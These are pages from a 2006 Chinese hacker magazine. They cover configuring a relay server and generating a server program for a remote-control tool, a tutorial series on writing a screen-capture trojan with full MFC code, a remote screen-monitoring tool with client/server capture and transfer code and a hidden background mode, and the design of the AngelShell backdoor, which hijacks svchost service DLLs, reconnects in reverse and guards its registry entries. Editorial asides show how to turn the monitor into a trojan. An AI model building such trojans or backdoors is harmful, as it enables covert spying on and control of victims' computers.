该选项设置完成后，最好点击一下“测试”按钮来测试输入的地址是否正确。在程序提示正确后，服务端的配置这样就完成了，如果用户想更改服务端的图标可以点击“修改图标”按钮进行更改，最后点击“生成”按钮即可生成我们配置的服务端程序。

### 更新中转服务器的IP地址

前面已经提到，黑洞2005企业版可以采用FTP更新IP地址，网易的Yeah.net免费域名和专用ASP文件系统三种方式来进行IP地址的转向，点击“更新地址”按钮弹出“更新IP地址”的界面，在此可以分别对3种方式的连接进行中转服务器的更新，并且都是手动方式更新。

在“FTP更新IP”选项卡中，用户首先来填写自己的FTP服务器、端口、账号、密码等信息，然后在下面的“中转服务器IP”和“端口”项目中填写中转服务器的IP地址和监听端口。如果你把中转服务器安装在本地计算机，那么直接把下面“本地IP地址”中的内容复制到“中转服务器IP”中，“端口”项设置为你在图3中设置的监听端口，最后点击“更新到空间”按钮即可。如图8所示。

而使用了“专用ASP文件系统”方式的，如果在配置中转服务器时选择了“自动更新IP地址到空间”选项的话，这里就不用更新了。如果没有设置，首先在“专用ASP更新IP”选项卡中填写“设置IP的ASP地址”和“获取IP的ASP地址”两项，下面的设置和在“FTP更新IP”选项卡中设置的相同。如图9所示。


#### 小结

到此为止，关于黑洞2005企业版的中转服务技术就为大家讲解到这。也许你会觉得中转服务技术和平时我们使用的端口映射差不多，其实从技术层面来讲，它们之间还是有本质区别的。毕竟在利用端口映射进行操作时，首先我们必须获得进行端口映射的远程计算机的IP地址，如果无法获得IP地址的话，后面所有的操作都无从下手。而采用了中转服务技术时，客户端和服务端都不需要动态IP支持，通过中转服务器都可以自动获取，这样就可以方便和简化以后的操作。软件下载地址http://www.138soft.net/html/soft/1/2/22.htm

www.hacker.com.cn 2006 精华本 下册 196

Socket：在特洛伊木马技术中，屏幕控制始终是一个被人们热衷谈论的话题。现在几乎所有的木马都使用了屏幕捕获技术，如著名的冰河、广外女生、网络神偷等。通过获取对方的屏幕，控制者可以非常直观地观察对方的一举一动，对方的所有秘密都尽收眼底了。

适合读者：黑客爱好者、编程新手
前置知识 VC6基本使用方法

## 从零开始学造木马之八
### 编写自己的屏幕捕获木马


文/图 RATATV

下面我们要谈的是屏幕的捕获，而不是屏幕的控制技术。相对来说，屏幕的捕获要比屏幕的控制简单了很多，但是屏幕的控制技术却以是屏幕捕获为基础的。一般来说，普通木马软件的屏幕控制技术都是通过某种机制（如接收到键盘、鼠标消息）在一定时间内获取多次屏幕，然后通过按比例来变换当前焦点的位置，并同时模拟对方机器的鼠标和键盘信息，从而达到对远程计算机进行控制的目的。本文中不会涉及到控制机制和鼠标键盘控制信息的解析，有兴趣的读者可以以本文为基础，做进一步的开发研究。

#### 程序界面及基本函数

在我的这个程序中，通过点击捕获按钮，调用OnCap函数来获取屏幕保存屏幕(如图1所示)。


另外，我们为了提供两种方法来存储捕获的屏幕，这里使用了一个名为STORE_IN_CLIPBOARD的宏，如果用户定义了这个宏，那么就保存到剪贴板中，如果没有定义，就保存到文件里去。这里我们不妨指定文件的存储路径为c:\capscreen.bmp。

> Socket：到底什么是宏呢？我们把那些能自动执行某种操作的命令统称为“宏”。以数据库举例，宏其实也是一种操作命令，它和菜单操作命令是一样的，只是它们对数据库施加作用的时间有所不同，作用时的条件也有所不同。菜单命令一般用在数据库的设计过程中，而宏命令则用在数据库的执行过程中。菜单命令必须由使用者来施加这个操作，而宏命令则可以在数据库中自动执行。

在学习这个程序之前，有一些API函数和重要的结构体我们需要先来了解一下。

1.为了得到设备的场景，可以使用类CDC中的成员函数CreateDC，函数原型如下：

```c
virtual BOOL CreateDC( LPCTSTR lpszDriverName,
 LPCTSTR lpszDeviceName,
 LPCTSTR lpszOutput,
 const void* lpInitData
);
```

这里，我们为了得到屏幕的设备场景，可以指定lpszDriverName为DISPLAY，这样通过使用图形设备驱动器的名称就可以得到屏幕的设备场景。

2.CreateCompatibleBitmap()函数初始化位图设备，其函数原型声明如下：

```c
BOOL CreateCompatibleBitmap(CDC* pDC , int
nWidth, int nHeight);
```

3.pDC指设备上下文句柄 nWidth指位图的宽度，以像素为单位 nHeight指位图的高度，以像素为单位。

4.SelectObject()函数选择一个对象放进设备上下文。新的对象将代替原来的同类型的对象。其函数的声明如下：

```c
HGDIOBJ SelectObject(HDC hdc, HGDIOBJ hgdiobj);
```

Hdc指设备上下文句柄 Hgdiobj指选定的对象句柄。如果选择的对象不是一个区域且函数调用成功，则SelectObject()函数返回被代替的对象句柄。如果选择的对象是一个区域且函数调用成功，则SelectObject()函数返回下列值：SIMPLEREGION（一个矩形区域）、COMPLEXREGION（一个矩形区域以上）、NULLREGION（空区域）。如果发生错误，且选择的对象不是一个区域，则SelectObject()函数返回NULL，否则返回GDI_ERROR。

#### 编写程序结构体

上面说完了函数，这里继续一些比较重要的结构体。

1.RECT结构定义了一个矩形区域的左上和右下的坐标，其定义如下：

```c
Typedef struct tagRECT
{
LONG left; //左上角的X坐标
LONG top; //左上角的Y坐标
LONG right; //右下角的X坐标
LONG bottom; //右下角的Y坐标
}RECT;
```

2.BITMAP结构定义了一个逻辑位图的高、宽、颜色格式和位值等信息，其定义如下：

```c
Typedef struct tagBITMAP
{
    int bmType;
    // 指定位图类型，对于逻辑位图，该值必须为0
    int bmWidth;
    // 指定位图的宽度，以分辨率为单位，此值必须大于0
    int bmHeight;
    // 指定位图的高度，以分辨率为单位，此值必须大于0
    int bmWidthBytes; // 指定每条光栅所占字节数。此值必须取偶数，因为图形设备接口（GDI）默认为一个位图的位值组成一个2字节的整数数组。
    BYTE bmPlanes;    // 位图调色板颜色数
    BYTE bmBitsPixel;
    // 一个点在每个调色板上接近的颜色位数
    LPVOID bmBits;    // 位图的位值的地址指针
}BITMAP;
```

3. BITMAPFILEHEADER结构。结构BITMAPFILEHEADER定义了包含设备独立位图（DIB）的文件的类型、大小和文件布局，通常在使用时，后面紧跟BITMAPINFO结构。BITMAPFILEHEADER结构的定义如下：

```c
typedef struct tagBITMAPFILEHEADER
{
    WORD bfType;      // 文件类型，必须取BM
    DWORD bfSize;     // 位图文件的大小，以字节为单位
    WORD bfReserved1; // 保留，必须为0
    WORD bfReserved2; // 保留，必须为0
    DWORD bfOffBits;  // 指定位图文件BITMAPFILEHEADER结构到位图位值之间的偏移量，以字节为单位
}BITMAPFILEHEADER;
```

4. BITMAPINFOHEADER结构。BITMAPINFOHEADER结构包含设备独立位图（DIB）的维数和颜色格式信息，其定义如下：

```c
Typedef struct tagBITMAPINFOHEADER
{
    DWORD biSize;
    // 本结构体的大小，以字节为单位
    LONG biWidth;
    // 位图的宽度，以像素为单位。如果biCompression成员取BI_JPEG值，则该成员指压缩了的JPEG图形文件的宽度。
    LONG biHeight;
    // 位图的高度，以分辨率单位为位。如果biHeight取正值，则位图是一个自下而上的DIB，它的起点在左下角；如果biHeight取负值，则位图是一个自顶向下的DIB，它的起点在左上角，此时biCompression成员必须取BI_RGB或BI_BITFIELDS
    WORD biPlanes;
    // 目标设备调色板的数量，该成员必须取1
    WORD biBitCount;
    // 每个像素点的位数，其中1指单色位图，4指16色位图，8指256色位图，依此类推
    DWORD biCompression; // 图形压缩类型，其中BI_RGB指未压缩，BI_JPEG指JPEG图形
    DWORD biSizeImage;   // 指图形的大小，以字节为单位，对于BI_RGB位图，该成员要被设置为0
    LONG biXPelsPerMeter;
    // 目标设备水平分辨率中每米的像素
    LONG biYPelsPerMeter;
    // 目标设备垂直分辨率中每米的像素
    DWORD biClrUsed;
    // 位图实际使用的颜色表中的颜色指数
    DWORD biClrImportant;
    // 显示位图所需要的颜色数
}BITMAPINFOHEADER;
```

#### 按钮对应的事件编程

下面我们来看看捕获按钮对应的处理函数OnCap()。

```c
void CCapScreenDlg::OnCap()
{
    CDC dc;
    int nWidth;
    int nHeight;
    // 获取整个屏幕的dc（设备场景）
    dc.CreateDC("DISPLAY",NULL,NULL,NULL);
    // 获得以像素为单位的显示高度和宽度，从而得到屏幕分辨率
    nWidth = GetDeviceCaps(dc, HORZRES);
    nHeight = GetDeviceCaps(dc, VERTRES);
    // 为屏幕dc创建兼容的内存dcMem
    CDC dcMem;
    dcMem.CreateCompatibleDC(&dc);
    // 创建一个与屏幕dc兼容的位图
    CBitmap bitmap;
    bitmap.CreateCompatibleBitmap(&dc, nWidth, nHeight);
    // 把新位图选到内存dc中，并保存原位图
    CBitmap *pOldBitmap = dcMem.SelectObject(&bitmap);
    // 将屏幕图像从屏幕dc拷到内存dc，其实是拷到位图中
    dcMem.BitBlt(0,0,nWidth,nHeight,&dc,0,0,SRCCOPY);
    // 恢复内存dc中的原位图
    dcMem.SelectObject(pOldBitmap);
    #ifdef STORE_IN_CLIPBOARD
    // 屏幕已拷到兼容位图bitmap上，下面将它保存到剪贴板
    if((OpenClipboard(NULL)) == 0) && ((EmptyClipboard()) != 0))
    {
        ::SetClipboardData(CF_BITMAP,bitmap.GetSafeHandle());
        ::CloseClipboard();
    }
    #else // 将屏幕保存为位图
    CString strFileFullPath ="c:\\capscreen.bmp";
    SaveBitmapToFile(dc.GetSafeHdc(), bitmap, strFileFullPath);
    #endif
    dc.DeleteDC();
}
```

下面的函数SaveBitmapToFile(dc.GetSafeHdc(),bitmap,strFileFullPath)是用来将内存中的一个位图保存为位图文件，该函数和位图文件的结构有关。

```c
BOOL CCapScreenDlg::SaveBitmapToFile(HDC hDC, CBitmap &bitmap, LPCTSTR lpszFileName)
{
    BOOL ret = TRUE;
    BITMAP btm;
    bitmap.GetBitmap(&btm);
    DWORD size = btm.bmWidthBytes * btm.bmHeight;
    // 接下来要使用GlobalAlloc()函数从堆中分配指定大小的内存，并返回指向这块内存的指针，分配内存是将内存的内容初始化为全零。
    HGLOBAL hMem = GlobalAlloc(GMEM_FIXED | GMEM_ZEROINIT,size);
    if(hMem == NULL)
    {
        return FALSE;
    }
    // 为了保护我们分配的这块内存，我们要调用GlobalLock来锁定这块内存，避免被其他的进程占用，这个函数返回指向内存锁的第一个指针
    LPSTR lpData = (LPSTR)GlobalLock(hMem);
    // 定义位图头，并对这个结构体变量初始化，这个结构之后初始化之后才能使用，尤其要指定位图的大小和位图的高度宽度
    BITMAPINFOHEADER bih;
    bih.biSize = sizeof(BITMAPINFOHEADER);
    bih.biWidth = btm.bmWidth;
    bih.biHeight = btm.bmHeight;
    bih.biPlanes = 1;
    bih.biBitCount = btm.bmBitsPixel;
    bih.biCompression = 0;
    bih.biSizeImage = size;
    bih.biXPelsPerMeter = 0;
    bih.biYPelsPerMeter = 0;
    bih.biClrUsed = 0;
    bih.biClrImportant = 0;
    //将位图中的数据以bits的形式放入lpData指向的位图数组中，这里用到了GetDIBits()函数。//
    if(GetDIBits(hDC,bitmap,0,bih.biHeight,lpData,(BITMAPINFO*)&bih,DIB_RGB_COLORS) == 0)
    {
        //释放掉从堆中分配的内存，避免内存泄露//
        GlobalFree(hMem);
        return FALSE;
    }
    //位图文件和普通的文件使用起来有区别，为了保存位图，我们这里定义了一个位图文件，用它来专门保存位图文件，在使用之前，也要填充位图文件的头部信息。Bfh的bfType成员没有选择，必须赋值为BM，bfReserved1和bfReserved2都必须指定为0，bfSize指定//
    BITMAPFILEHEADER bfh;
    bfh.bfType = ((WORD)('M'<<8)|'B');
    bfh.bfReserved1 = 0;
    bfh.bfReserved2 = 0;
    bfh.bfSize = sizeof(bfh)+size;
    bfh.bfOffBits = sizeof(bfh);
    CFile bf;
    //对于位图文件的写入，我们可以使用下面的方法//
    if(bf.Open(lpszFileName, CFile::modeCreate|CFile::modeWrite))
    {
        bf.WriteHuge(&bfh,sizeof(BITMAPFILEHEADER));
        bf.WriteHuge(&bih,sizeof(BITMAPINFOHEADER));
        bf.WriteHuge(lpData,size);
        bf.Close();
    }
    else
    {
        ret = FALSE;
    }
    //释放掉从堆中分配的内存，避免内存泄露//
    GlobalFree(hMem);
    return ret;
}
```

文章写到这里，基本上将一个屏幕捕获讲完了。不过，通过这种方法直接捕获的图像有点大，如果进行屏幕控制，在网络上传输的流量就很大了。另外，对于屏幕控制这一重要内容，我们要尽量的压缩传输的数据量，从而在机器资源占用和网络带宽占用方面做得更好。比如我们可以采用一些图像压缩技术，或者干脆只传输屏幕上变化了的部分，当然，这样做起来会更麻烦，有心的读者可以仔细研究一下，希望每个朋友都能写出自己的屏幕捕获程序。   ///

> Socket：本文主要介绍了远程屏幕监视软件EagleEye的开发与设计过程，逐一介绍了比较正规的专业程序开发步骤：需求分析、功能设计与实现、软件测试运行。在功能设计中用程序流程图展现了程序执行的具体过程。在功能实现中详细地展现了系统的各个功能模块、所需的VCL类和自定义的相关类，给出了实现相应的功能的函数及代码，文章的最后还给出了本软件的主要功能源代码。我们推出这样的文章是想让大家真正了解到专业程序开发的流程和详细的步骤分析，或许这个文章就能让无数新手迈进专业程序开发的第一步呢？！
适合读者：编程爱好者、黑客工具爱好者
前置知识：Borland C++ Builder 6.0基本使用方法

## 带你迈上专业软件开发第一步
### 远程屏幕监视软件的 开发与实现

文/图 lluyit

通过21天的编写，远程辅助类工具软件EagleEye基本编写完毕，能够完成多窗口多种方式（可以选择截图或实时监视的方式）同时监视多台远程计算机，可以实现对本地计算机上显示的远程屏幕图像的实时存储，可以将图像拷贝到剪贴板，并且用户可以设定监视时间、监视方式，可以选择程序的运行方式（可以是正常模式，也可以使程序隐藏于后台运行），完全实现了我最初步的设想。心情不错，于是急忙拿出来和广大的黑防读者们一起共享，共同富裕嘛！

#### 开发环境和功能分析

远程屏幕监视作为我自主编写的远程控制软件的一个模块，将其独立分割出来发布测试，软件要求能实现分屏同时监视远程主机。大体的开发环境是。
操作系统：Windows XP SP1。
开发所用计算机配置：512MB内存+P4 2.4GB CPU+800MHz系统总线。
环境：Borland C++ Builder 6.0+SUISty1e控件。
至于功能需求分析，我们一点一点看，这或许是专业开发人员和普通自学程序员之间最大的差距，一起来学习、探讨一下吧！
1. 为实现数据的网络传输，软件采用C/S（客户端/服务器）数据传输模式。从遵循计算机道德的角度出发，在该设计过程中，不打算编写具有木马特征的独立

服务端，而将软件集客户端（Client）和服务端（Server）于一体。软件基本定位是：远程辅助类工具软件。

> Socket：咳……其实你可以花5分钟时间将客户端（Client）和服务端（Server）分离，并加入自启动的功能，如果够狠的话，再加入关联文件的功能，这不就是一个截屏木马吗？

2. 服务端（Server）实现 采用C++ Builder的Socket Server控件来实现服务端的数据传输功能。主要功能 监听本地计算机的指定端口，截获本机屏幕信息，拷贝屏幕区域到自定义的位图变量。

> Socket：为了提高传输效率，服务端根据在连接过程中所获得的转换参数将位图转换成JPEG格式后存入缓存区，在与远程客户端连接的前提下，将缓存区数据流发送至客户端（Client）。

3. 客户端（Client）实现 利用Winsock API函数来定义用于本软件网络数据传输的Sockets。功能实现 向远程主机服务端（Server）提出连接申请，并在此过程中将JPEG转换参数发送给服务端（Server）。在获得连接的前提下，不断接受远程服务端（Server）所发送的包含远程主机屏幕信息的JPEG数据流，并实时将所接受的图像在本软件的客户区域（Client Region）上重绘，从而实现在本地计算机实时监视远程计算机屏幕的目的。

#### 详细功能设计

上面大体分析了功能和需要，下一步一起来看看如何进行详细的功能设计。

- 1. 客户端（Client）
  (1) 客户端与服务端之间网络畅通状况的检测。编写Ping模块，此模块发送一个ICMP echo request（ICMP协议回显请求）至目标主机，如果获得回显，则向目标主机发送连接请求。
  (2) 客户端（Client）与服务端（Server）之间的数据传输。利用Winsock API函数来定义用于本软件数据传输的Sockets。具体过程为：连接远程主机→返回有效SOCKET（使用Connect_Server()）→向SOCKET写字符串（使用Write_Socket()）→向远程主机的指定端口发送字符串提供转换参数（使用SendMsg()）→动态分配端口，并与SOCKET绑定→返回该SOCKET（使用BindSocket()）→向远程主机的指定端口发送请求（使用SendStream()）→从远程主机的指定端口接收数据流（使用RecvStream()）。
  (3) 图像重绘 使用Image控件将从远程主机发送到的JPEG图像显示。

- 2. 服务端（Server）
  (1) 服务端（Server）功能的实现。使用C++ Builder的Socket Server控件编写软件的服务端（Server）。监听本地计算机指定端口，接受由客户端发送至的相关参数，将参数传递给屏幕图像截取模块。
  (2) 屏幕图像截取与传输步骤 读取取得桌面的矩形区域范围GetWindowRect()→创建内存设备描述表从而定义位图变量GetDC()→拷贝屏幕的指定区域到位图BitBlt()→创建JPEG图像将位图转化为JPEG格式→保存JPEG图像信息至内存数据流Assign()，SaveToStream()→将图像信息数据流通过Sockets发送至客户端（由SendStream()实现）。


#### 数据结构与算法

在此对实现主要功能的类和方法做出说明，对由IDE所生成的与可视化控件相关的方法在此不予详细说明。同时为配合新手学习，代码后附详细功能注释。

1. 所用的VCL中现成的类
TBitmap（位图对象）类和TJPEGImage类。TBitmap（位图）是VCL中抽象图形类Graphics的一个对象，它可以用于在内存中创建和处理图像，也可以存储图像数据流。TBitmap包装了VCL中的位图操作，其属性有Palette、Height、Width和TransparentColor等。TJPEGImage封装了用于处理JPEG格式数据的Graphic类，它可以对以JPEG格式压缩的图像数据进行创建和读取，其属性有Height、Palette、Performance、PixelFormat、Scale、Width等。

2. 继承于VCL中的类
(1) 线程类TRecvStreamThread，继承于TThread类。

```cpp
class TRecvStreamThread : public TThread
{
private:
protected:
    void __fastcall Execute();//
public:
    __fastcall TRecvStreamThread(bool CreateSuspended);
    // 接受数据的线程
    bool __fastcall LoadImage(TImage *image);//显示图像
    TImage *RemoteScreen; // 显示图像的对象指针
    TStatusBar *StatusBar; // 显示状态信息的对象指针
    AnsiString RemoteAddress; // 远程主机IP
    int CL, CQ; // 色深和图像品质
};
```

(2) 主窗口类TMainForm，继承于TForm类。

```cpp
class TMainForm : public TForm
{
__published:
    TMainMenu *MainMenu1;
    TToolButton *ToolButton14;
    ......//可视化控件相关声明
    void __fastcall HelpAbout1Execute(TObject *Sender);
    void __fastcall FileExit1Execute(TObject *Sender);
    void __fastcall ServerSocket1ClientRead(TObject *Sender,
      TCustomWinSocket *Socket);
    void __fastcall ServerSocket1ClientError(TObject *Sender,
      TCustomWinSocket *Socket, TErrorEvent ErrorEvent,
      int &ErrorCode);
    void __fastcall FormCreate(TObject *Sender);
    void __fastcall fileSaveAsItemClick(TObject *Sender);
    void __fastcall HideForm(TObject *Sender);
    ......//处理可视化控件的相关方法
private:
    void __fastcall CreateMDIChild(const AnsiString sAddress,
      int CL, int CQ);
public:
    virtual __fastcall TMainForm(TComponent *Owner);
};
```

(3) 子窗口类TMDIChild。

```cpp
class TMDIChild : public TForm
{
__published:
    ......//可视化控件相关声明
    void __fastcall FormClose(TObject *Sender,
      TCloseAction &Action);
    void __fastcall Image1DblClick(TObject *Sender);
    void __fastcall N3Click(TObject *Sender);
    void __fastcall N2Click(TObject *Sender);
    ......//处理可视化控件的相关方法
private:
public:
    virtual __fastcall TMDIChild(TComponent *Owner);
    bool __fastcall LoadImage(void); // 载入图像
    AnsiString RemoteAddress; // 远程主机IP
    int CL, CQ; // 色深和图像品质
};
```

3. 继承类中的相关方法。
(1) CaptureImage()——捕获当前屏幕并保存到Imagestream中。具体代码如下：

```cpp
void CaptureImage(int options, int level, int cq,
  TMemoryStream* imgstream)
{
    LONG width,height;
    RECT capRect;
    HDC DesktopDC;
    switch (options) {
        case CM_ENTIRESCREEN: // 捕获整个屏幕
            // 取得桌面的矩形区域范围
            GetWindowRect(GetDesktopWindow(),&capRect);
            break;
        case CM_ACTIVEWINDOW: // 捕获当前窗口
            HWND ForegWin;
            ForegWin = GetForegroundWindow();
            // 取得当前窗口句柄
            if (!ForegWin) ForegWin = GetDesktopWindow();
            GetWindowRect(ForegWin,&capRect);
            // 取得当前窗口的矩形区域范围
            break;
    }
    DesktopDC = GetDC(GetDesktopWindow());
    // 创建内存设备描述表
    width = capRect.right - capRect.left;
    height = capRect.bottom - capRect.top;
    Graphics::TBitmap *bBitmap; // 定义位图变量
    try {
        bBitmap = new Graphics::TBitmap(); // 创建位图
        bBitmap->Width=width;
        bBitmap->Height=height;
        if ((level>0)&&(level<8))
            bBitmap->PixelFormat = TPixelFormat(level); // 设定色深
        // 拷贝屏幕的指定区域到位图
        BitBlt(bBitmap->Canvas->Handle,0,0,width,
          height,DesktopDC,
          capRect.left,capRect.top,SRCCOPY);
        if (cq>=0) {
            TJPEGImage *jpeg;
            try {
                jpeg = new TJPEGImage(); // 创建JPEG图像
                jpeg->CompressionQuality = cq; //设定图像品质
                jpeg->Assign(bBitmap); // 将位图转化为JPEG格式
                jpeg->SaveToStream(imgstream); // 保存JPEG图像信息
            }
            __finally {
                delete jpeg; // 释放资源
            }
        }
        else {
            bBitmap->SaveToStream(imgstream);
            // 保存位图信息
        }
    }
    __finally {
        delete bBitmap; // 释放资源
    }
}
```

(2) ServerSocket1ClientRead()——捕获并发送自己的屏幕图像。具体代码如下：

```cpp
void __fastcall TMainForm::ServerSocket1ClientRead
  (TObject *Sender, TCustomWinSocket *Socket)
{
    AnsiString sRecvString = Socket->ReceiveText();
    // 保存接收到的字符串
    AnsiString sRemoteAddress = Socket->RemoteAddress;
    // 保存对方IP
    int CL,CQ;
    u_short port;
    // 将接收到的字符串分解为接收端口、色深、品质3个参数
    int pos = sRecvString.Pos("\n");
    // 接收端口
    port = u_short(StrToIntDef(sRecvString.SubString(1,pos-1),0));
    sRecvString = sRecvString.SubString(pos+1,sRecvString.Length()-pos);
    pos = sRecvString.Pos("\n");
    // 色深
    CL = StrToIntDef(sRecvString.SubString(1,pos-1),0);
    sRecvString = sRecvString.SubString(pos+1,
      sRecvString.Length()-pos);
    // 品质
    CQ = StrToIntDef(sRecvString.SubString(1,pos-1),0);
    if (port) {
        TMemoryStream *ImageStream;
        // 定义数据流
        try {
            ImageStream = new TMemoryStream;
            // 分配内存
            // 捕获当前屏幕并保存到ImageStream中
            CaptureImage(CM_ENTIRESCREEN, CL,
              CQ, ImageStream);
            // 发送ImageStream到接收端口
            if (!SendStream(sRemoteAddress, port, ImageStream))
                MessageBox(0,"发送数据流失败!",
                  "EagleEye",MB_ICONERROR);
        }
        __finally {
            delete imageStream; // 释放资源
        }
    }
}
```

(3) LoadImage()——接受服务端屏幕数据并在本地计算机上重绘图像。具体代码如下：

```cpp
bool __fastcall TRecvStreamThread::LoadImage(TImage *Image1)
{
    CPingReply reply;
    CPing PingHost;
    bool bRtn = false;    // 函数返回值初始为 FALSE
    StatusBar->SimpleText = "正在连接主机...";
    // 先PING主机，检测网络是否畅通
    bool rtn = PingHost.Ping(RemoteAddress.c_str(),reply, 64,4000,32);
    if (rtn) {
        u_short RecvPort=0;
        TMemoryStream *Stream;
        try{
            for(int i=1;i<=(ConfigForm->times);i++)
            // 进入循环，不断获得远程桌面图像
            { // 定义一个数据流并分配内存
                Stream = new TMemoryStream;
                TJPEGImage *jpeg;  // 定义JPEG图像
                try{
                    jpeg = new TJPEGImage;  // 分配内存
                    int RecvSocket = BindSocket(&RecvPort);  // 动态分配接收端口
                    if (RecvSocket)
                    { // 将接收端口和色深、图像品质合成一条命令，参数之间以'\n'分隔
                        AnsiString Msg = IntToStr(RecvPort) + "\n" +IntToStr(CL) + "\n" +IntToStr(CQ) + "\n";
                        Application->ProcessMessages(); // 处理系统消息
                        // 向远程主机发送命令
                        if (SendMsg(RemoteAddress,LISTENPORT,Msg))
                        { // 开始接收图像到数据流中
                            if (RecvStream(RecvSocket,Stream))
                            {
                                StatusBar->SimpleText = "正在接收数据...";
                                // 从数据流中载入图像
                                jpeg->LoadFromStream(Stream);  // 显示图像
                                Image1->Picture->Bitmap->Assign(jpeg);
                                //MessageBeep(MB_OK);
                                // 发出提示声音，返回值为TRUE，表示成功
                                bRtn = true;
                            }
                            else
                                MessageBox(0,"接收数据流失败!","EagleEye",MB_ICONERROR);
                        }
                        else
                            MessageBox(0,("无法与主机"+ RemoteAddress +"建立连接!").c_str(),"EagleEye",MB_ICONERROR);
                    }
                    else
                        MessageBox(0,"分配端口失败，无法继续接收数据!","EagleEye",MB_ICONERROR);
                }
                __finally {
                    delete jpeg;  // 释放资源
                }
                RecvPort+=1;
            }
        }
        __finally {
            delete Stream;  // 释放资源
        }
    }
    else
        MessageBox(0,("主机"+RemoteAddress+"没有响应!").c_str(),"EagleEye",MB_ICONERROR);
    return bRtn;
}
```

大体流程就是这样，中间因为篇幅的问题省略掉了Ping模块的编写，不过已经提供了全部的程序代码，大家可以自己看看。

#### 后期程序测试

软件运行界面如图1所示。

软件运行平台：
Windows 98/2000/XP/2003

软件所实现功能：多窗口两种方式（可以选择截图或实时监视的方式），同时监视多台远程计算机，用户可以设定监视时间、监视方式；用户可以实现对本地计算机上显示的远程屏幕图像的存储，可以将图像拷贝到剪贴板；用户可以选择程序的运行方式，可以是正常模式，也可以使程序隐藏于后台运行。


计算机上显示的远程屏幕图像的存储，可以将图像拷贝到剪贴板；用户可以选择程序的运行方式，可以是正常模式，也可以使程序隐藏于后台运行。

软件运行最低配置。由于条件限制没能在更低配置的机器测试，所以最低运行配置数据不准确。软件在P4赛扬1.6GB，128MB内存，133MHz系统总线，操作系统为Windows 98的计算机上运行良好。

软件在100.0Mbit/s的局域网中对远程主机的实时监视图像传输速率可以234帧/min，在带宽为512kbit/s的ADSL宽带用户的计算机上可以达到196帧/min，对带宽为56kbit/s的拨号上网用户无法实现实时监视功能，只能使用截图方式对其监视。

### 结语

经过21天的设计和开发，远程屏幕监视软件EagleEye基本开发完毕。其功能基本符合需求，但由于设计时间太短，该软件还有许多不尽如人意的地方，比如出错处理不够周全，图像传输效率不是很高等等一些方面问题，这些都有待进一步改善。

通过这款软件设计，巩固了编程开发工具Borland C++ Builder 6.0的使用技能，它使用面向对象的开发技术能够轻松开发出功能强大的应用程序。使用与Borland C++ Builder 6.0相配套的第三方面控件能够快速高效地制作美观的用户界面；使用其自带的相关控件可以快速、随意地制作出用户所需的各种形式的程序模块。

最后感谢《黑客防线》给我这次投稿的机会。在此向广大读者朋友们、编辑们表示最衷心的感谢。行文仓促，如有不足错误之处，请批评指教。Email：liuyit-123@163.com

> Socket：如果软件在你的计算机无法编译，原因是你的计算机上的C++ Builder没有安装SUIPack1控件或控件的搜索路径与笔者的计算机的路径不同。安装控件后修改EagleEye工程代码中的视图资源文件的路径为你计算机上SUIPack的搜索路径即可。


#### Socket: 在AngelShell的应用篇中，我们一起领略了它的风采

这个传奇式的能将正向程序实现反向连接的后门的确是不可多得的一道大餐！相信很多朋友一定想知道它是怎么做出来的吧？我也是，马上进入AngelShell的代码世界……

适合读者：编程爱好者、入侵爱好者
前置知识：Delphi编程基础

## AngelShell: 让所有正向程序实现反向连接
### （编程实现篇）
文/图 阿长

作为一个后门程序，首先需要隐蔽性强，其次要具备实用的功能，个头也不能太大，自我保护功能还得强，最后程序运行要稳定，否则半路出错可就麻烦了；还有需要支持多用户同时登录，且互不影响。对于硬件防火墙或内网计算机，后门还需要提供反向连接的功能。关于隐蔽，我一向很看好DLL型的后门，这类后门一向都很难察觉到，而且DLL程序也自有它的优势，因为它可以利用Windows的服务共享来启动，也就是利用系统进程Svchost来实现加载。这样的后门，先不说隐蔽，就算知道自己中了后门，要清除起来也是十分麻烦的。下面我们就一步一步来讲解AngelShell的编写方法。

#### 服务共享

Windows系统服务分为独立进程和共享进程两种，在Windows 2000以后的操作系统中微软又把很多服务做成了共享方式，由Svchost.exe启动。Windows 2000一般有两个Svchost进程，一个是RPCSS(Remote Procedure Call)服务进程，另外一个则是由很多服务共享的Svchost.exe。Windows XP中则一般有4个以上的Svchost.exe服务进程，Windows 2003 Server中则更多。这样做虽然在一定程度上减少了系统资源的消耗，不过也带来一定的不稳定因素，因为任何一个共享进程的服务因为错误退出进程的话，就会导致整个进程中的所有服务都退出。

这里我们选择替换DLL的方式，原理是修改注册表中共享服务的ServiceDll值，把它变成自己的路径，然后把Start的值改成2，这样服务就自动启动了。当DLL被Svchost加载后，会执行DLL中一个过程名为ServiceMain的过程，所以整个程序都是从ServiceMain这个过程开始启动的。另一点是要实现端口转发，要实现端口转发其实并没有大家想象的那么复杂，其主要的连接模式应该如图1所示。

其中肉鸡外面的那一圈表示防火墙或者内网。后门首先连接Fport客户端，然后本机直接连接Fport客户端模拟出来的端口，然后后门在肉鸡上连接真正的端口，最后进行数据中转，通过多线程技术来处理多个连接，这样就完成了整个端口转发的过程。


为了避免系统出问题，我从注册表中找了一个无关紧要的服务。就是“Portable Media Serial Number Service”，这个服务是系统本身自带的，但是默认是停止的。我们只需要把它的DLL指向我们的DLL，然后把服务设为自动就可以了。

#### 线程分配

编程实现其实并不难，重在流程。当我们想清楚了实现原理的时候，在心中就要有这个程序运行的大致流程。

##### ★安装

使用Rundll32来安装。首先判断后门是否在系统目录，如果是则继续，不是的话则把自己复制到系统目录，然后重新安装。再修改注册表，完成安装，然后执行服务。

##### ★服务

一共有8个线程，先给大家介绍一下这8个线程的作用。

- 1. 这也是主线程，用来接收正向连接。
- 2. 这个线程用来管理反向连接，每过一定的时间去指定的位置下载信息，然后尝试反向连接。
- 3. 这个线程用来处理新接收的用户。当上面两个线程接收到新的连接时就开辟出来，使每个用户都拥有自己独立的线程运作，互不冲突。当接收用户连接后它将同时开辟出4号线程，然后负责处理用户的数据，如果是附加功能就直接执行(比如是端口转发就直接开辟出6号线程)，如果不是附加功能就交由CMD进程处理。
- 4. 这个线程由上面一个线程开出，负责把CMD的输出数据传输给用户。
- 5. 自我保护线程，这个线程负责保护自己。由于以服务共享方式启动的服务是无法在中途停止的，所以要停止服务只有在服务管理器中设置为手动或禁用，再重启才能停止。这就给了这个保护线程一个极大的机会。这个线程负责每0.2秒钟检查一次注册表，如果发现自己被设置为手动或者禁用，或者被从Svchost组中删除，甚至整个服务都被删除，也都可以会立刻恢复！
- 6. 这个线程由3号线程开出，用来管理端口转发线程的开辟。也就是管理后面两个线程，每接收一个新的连接就开辟出后面两个线程，并把Socket句柄交给后两个线程去处理。
- 7. 这个线程用来把服务器的数据传输给客户端。
